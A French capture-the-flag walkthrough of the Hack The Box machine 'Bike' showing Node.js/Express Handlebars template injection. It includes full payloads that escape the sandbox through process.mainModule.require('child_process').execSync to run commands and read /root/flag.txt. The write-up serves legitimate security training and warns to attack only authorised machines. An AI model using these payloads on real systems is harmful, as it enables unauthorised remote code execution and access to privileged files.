










# Introduction

Bienvenue sur **Bike**, une machine du **Tier 1** de **Starting Point** qui introduit à une vulnérabilité web redoutable : le **SSTI (Server-Side Template Injection)**. Quand une application utilise un moteur de templates pour afficher dynamiquement des données utilisateur sans les valider, un attaquant peut injecter du code qui sera exécuté directement côté serveur.

On va identifier que l'application tourne sur **Node.js avec Express** et le moteur de templates **Handlebars**, puis exploiter une injection pour contourner la sandbox et exécuter des commandes système arbitraires.

:::tip
Attention : Il s'agit d'une machine VIP. Vous aurez besoin d'un abonnement HTB pour pouvoir la lancer.
:::

:::warning
Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant.
:::

:::caution
N'attaquez que des machines sur lesquelles vous avez l'autorisation. Respectez les règles de la plateforme.
:::

[▶ RavenBreach sur YouTube](https://www.youtube.com/@Raven_Breach/videos)

---

## Reconnaissance

### Configuration DNS locale

```bash
sudo nano /etc/hosts
# Ajouter : 10.129.29.247 bike.htb
```

On vérifie avec un `ping bike.htb` — TTL de 63 → machine **Linux**.

### Énumération des services

```bash
┌─[user@parrot]─[~]
└──╼ $nmap -p22,80 -sV -sC bike.htb

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike
```

Le port 80 tourne sur **Node.js avec le framework Express**.

### Exploration de l'application web

En ouvrant `http://bike.htb`, on découvre un site avec un formulaire d'inscription à une newsletter.



On soumet une valeur quelconque et l'application renvoie notre saisie directement dans la page.



Ce comportement est typique d'un moteur de templates affichant dynamiquement des données utilisateur. Ça sent la **SSTI**.

---

## Pré-Exploitation

### Identification de la vulnérabilité SSTI

On soumet `{{7*7}}` dans le formulaire.



On n'obtient pas `49` mais une **erreur**. Le serveur a tenté d'évaluer l'expression — la syntaxe `{{ }}` est reconnue. Le message d'erreur révèle le chemin `/routes/Backend/` et le nom du moteur : **Handlebars**.

:::tip
Une erreur qui expose des chemins internes et le nom de la technologie est déjà une fuite d'information précieuse. En pentest, on note tout.
:::

### Mise en place de BurpSuite

On ouvre BurpSuite, on crée un projet temporaire, on active l'intercept et on ouvre le navigateur intégré.



---

## Exploitation

### Payload SSTI Handlebars

En cherchant sur [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/) les payloads pour Handlebars, on utilise la syntaxe de blocks pour remonter au constructeur JavaScript et appeler `require('child_process').exec()`.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

On encode ce payload en **URL encode** dans l'onglet **Decoder** de BurpSuite.



On intercepte une requête et on l'envoie au **Repeater**.



Dans le Repeater, on remplace la valeur du paramètre `email` par notre payload encodé.



La réponse renvoie `require is not defined`.



Le code s'exécute dans une **sandbox** qui bloque l'accès à `require`.

### Contournement de la sandbox avec `process`

Dans Node.js, `process` est un objet global accessible partout. `process.mainModule` fait référence au module principal, non sandboxé.

On modifie le payload progressivement :

```
{{this.push "return process;"}}
```

![Process accessible - [object process]](./image9.png)

La réponse contient `[object process]` — on peut accéder à `process`.

### Exécution de commandes

```
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```



On a une **RCE** !

---

## Post-Exploitation

### Récupération du flag

```
{{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
```



Un fichier `flag.txt` est présent.

```
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
```

```
6b2{...}81c
```

La machine est **pwned** !

---

## Conclusion

Chaîne d'attaque :
1. **Reconnaissance** → Node.js / Express sur port 80
2. **Détection SSTI** → `{{7*7}}` révèle Handlebars via l'erreur
3. **Exploitation initiale** → payload bloqué par la sandbox qui interdit `require`
4. **Contournement** → `process.mainModule.require` pour sortir de la sandbox
5. **RCE** → `execSync` + lecture de `/root/flag.txt`
